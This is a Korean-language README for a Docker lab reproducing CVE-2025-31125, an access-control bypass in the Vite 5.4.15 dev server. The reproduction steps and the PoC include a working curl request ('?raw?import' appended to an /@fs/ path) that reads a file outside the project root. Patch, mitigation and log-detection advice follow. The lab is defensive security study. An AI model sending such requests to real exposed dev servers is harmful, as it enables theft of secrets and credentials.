


# CVE-2025-31125: Vite 개발 서버 임의 파일 읽기

제출 및 인쇄용 문서: [README.pdf](./README.pdf)

## Contributors

- [@yangyu0330](https://github.com/yangyu0330)

## 취약점 요약

- 제품: Vite
- CVE: CVE-2025-31125
- 실습 버전: Vite 5.4.15
- 취약점 유형: 접근 제어 우회에 의한 임의 파일 읽기(CWE-200, CWE-284)
- 인증 필요 여부: 불필요
- NVD Risk Score: 7.5 HIGH
- 공식 근거: [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-31125), [Vite 보안 권고](https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8)

Vite 개발 서버는 프로젝트 외부 파일 접근을 제한하지만, 취약 버전에서는 요청에 `?raw?import` 또는 `?inline&import` 쿼리를 조합하면 이 검사를 우회할 수 있습니다. 공격자는 인증 없이 개발 서버가 읽을 수 있는 파일의 내용을 HTTP 응답으로 획득할 수 있습니다.

NVD는 이 취약점이 실제 악용된 사실을 반영하여 CISA Known Exploited Vulnerabilities(KEV) 등록도 표시하고 있습니다.

## 환경 구성

### 구성 요소

| 구성 요소 | 버전 및 역할 |
| --- | --- |
| Node.js | `20.19.2-alpine3.21`, SHA-256 digest 고정 |
| Vite | `5.4.15`, 취약 버전 |
| 컨테이너 | `vulnerable` 서비스 1개 |
| 실습 파일 | `/secret.txt`, 성공 판정용 무해한 표식 포함 |
| 공개 포트 | `127.0.0.1:5173` |

Node 공식 이미지는 `sha256:be56e91681a8ec1bba91e3006039bd228dc797fd984794a3efedab325b36e679`로 고정했고, npm 의존성은 `package-lock.json`으로 고정했습니다. 외부 데이터베이스나 보조 서비스는 사용하지 않습니다.

### 요구 사항

- Docker Desktop 또는 Docker Engine
- Docker Compose v2 이상
- Windows PowerShell 및 `curl.exe`

### 실행

```bash
docker compose up -d --build
```

서비스 준비 상태와 컨테이너 수를 확인합니다.

```bash
docker compose ps
```

정상적으로 실행되면 `vulnerable` 컨테이너 하나만 표시되고 서비스는 `http://127.0.0.1:5173`에서 응답합니다.

## 취약 조건

다음 조건을 모두 만족할 때 취약합니다.

1. Vite 5.4.15처럼 수정 버전보다 낮은 버전을 사용합니다.
2. Node.js 또는 Bun에서 Vite 개발 서버를 실행합니다.
3. `--host` 또는 `server.host` 옵션으로 개발 서버를 네트워크 인터페이스에 노출합니다.
4. Vite 프로세스가 읽을 수 있는 파일이 존재합니다.

이 실습은 Docker 포트 전달에 필요한 `--host 0.0.0.0`을 사용하되, 호스트 측 포트는 `127.0.0.1`에만 바인딩하여 외부 접근을 차단합니다. 성공 표식 파일은 컨테이너 내부 `/secret.txt`이며 프로젝트 루트 `/app` 밖에 위치합니다.

## 재현 절차

1. 환경을 실행합니다.

   ```bash
   docker compose up -d --build
   ```

2. 일반 요청이 차단되는지 확인합니다.

   ```powershell
   curl.exe -i "http://127.0.0.1:5173/@fs/secret.txt"
   ```

   정상 접근 제어가 동작하면 `HTTP/1.1 403 Forbidden`이 반환됩니다.

3. `?raw?import` 쿼리를 추가한 PoC 요청을 전송합니다.

   ```powershell
   curl.exe -i "http://127.0.0.1:5173/@fs/secret.txt?raw?import"
   ```

4. 자동 검증 스크립트를 실행합니다.

   ```powershell
   .\poc\run.ps1 -TargetUrl http://127.0.0.1:5173
   ```

## PoC 코드

전체 PoC는 [`poc/run.ps1`](poc/run.ps1)에 포함되어 있습니다. 스크립트는 대상 호스트를 로컬 주소로 제한하고 다음 세 조건을 모두 확인합니다.

1. 일반 요청이 HTTP 403을 반환합니다.
2. 우회 요청이 HTTP 200을 반환합니다.
3. 응답 본문에 `CVE_2025_31125_SINGLE_CONTAINER_SUCCESS`가 존재합니다.

핵심 요청은 다음과 같습니다.

```powershell
$baselineStatus = curl.exe --silent --output baseline.txt --write-out "%{http_code}" `
    "http://127.0.0.1:5173/@fs/secret.txt"

$exploitStatus = curl.exe --silent --output exploit.txt --write-out "%{http_code}" `
    "http://127.0.0.1:5173/@fs/secret.txt?raw?import"
```

연결 실패, 예상하지 않은 상태 코드 또는 표식 누락이 발생하면 스크립트는 오류로 종료합니다.

## 실행 결과

깨끗하게 빌드한 Vite 5.4.15 컨테이너 하나에서 다음 결과를 확인했습니다.

```text
[PASS] Baseline request: HTTP 403 (access blocked)
[PASS] PoC request: HTTP 200
[PASS] Marker observed: CVE_2025_31125_SINGLE_CONTAINER_SUCCESS
```

우회 요청의 응답에는 다음 JavaScript 모듈 문자열이 포함되었습니다.

```javascript
export default "CVE_2025_31125_SINGLE_CONTAINER_SUCCESS"
```



실행 페이지 확인 화면:



## 대응 방안

### 패치

사용 중인 Vite 버전 계열에 맞춰 다음 버전 이상으로 업그레이드합니다.

- Vite 6.2.4 이상
- Vite 6.1.3 이상
- Vite 6.0.13 이상
- Vite 5.4.16 이상
- Vite 4.5.11 이상

```bash
npm install vite@5.4.16
```

### 완화책

- 개발 서버를 인터넷이나 신뢰할 수 없는 네트워크에 노출하지 않습니다.
- 반드시 필요한 경우 방화벽과 접근 제어 프록시로 허용된 사용자만 접속하게 합니다.
- 개발 서버 프로세스에 최소 파일 권한을 부여하고 비밀 파일과 자격 증명을 같은 실행 환경에 두지 않습니다.
- 운영 환경에서는 Vite 개발 서버 대신 빌드된 정적 파일을 전용 웹 서버로 제공합니다.

### 탐지

- HTTP 로그에서 `/@fs/`와 `?raw?import`, `?inline&import` 조합을 탐지합니다.
- Vite 개발 서버 포트가 외부 인터페이스에 노출되었는지 주기적으로 확인합니다.
- 개발 환경의 `.env`, 인증서, 키 파일 접근 흔적을 점검합니다.

## 평가

### Reproducibility

- Reproducibility: 100%
- 근거: digest로 고정된 Node 공식 이미지, 잠금 파일로 고정된 Vite 5.4.15 의존성, 단일 컨테이너, 자동 healthcheck 및 결정적인 정상/공격 요청 비교를 사용합니다. Windows Docker Desktop의 깨끗한 빌드에서 PoC 성공을 확인했습니다.

### Risk Score

- Risk Score: 7.5/10.0 (NVD, HIGH)
- CVSS 버전: 3.1
- CVSS 벡터: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- 근거: 네트워크에서 인증과 사용자 상호작용 없이 요청할 수 있고, 성공 시 Vite 프로세스가 읽을 수 있는 파일의 기밀성이 크게 침해됩니다. 파일 변경이나 서비스 중단 영향은 확인되지 않아 무결성과 가용성 영향은 없습니다.
- 참고: CVE CNA인 GitHub는 공격 복잡도와 사용자 상호작용을 다르게 평가하여 5.3 MEDIUM을 부여합니다. 이 보고서는 NVD의 현재 분석값 7.5를 Risk Score로 사용합니다.

## 종료

```bash
docker compose down -v
```

## 참고 자료

- [NVD - CVE-2025-31125](https://nvd.nist.gov/vuln/detail/CVE-2025-31125)
- [Vite Security Advisory - GHSA-4r4m-qw57-chr8](https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8)
- [Vite patch commit - 59673137](https://github.com/vitejs/vite/commit/59673137c45ac2bcfad1170d954347c1a17ab949)
- [CISA Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
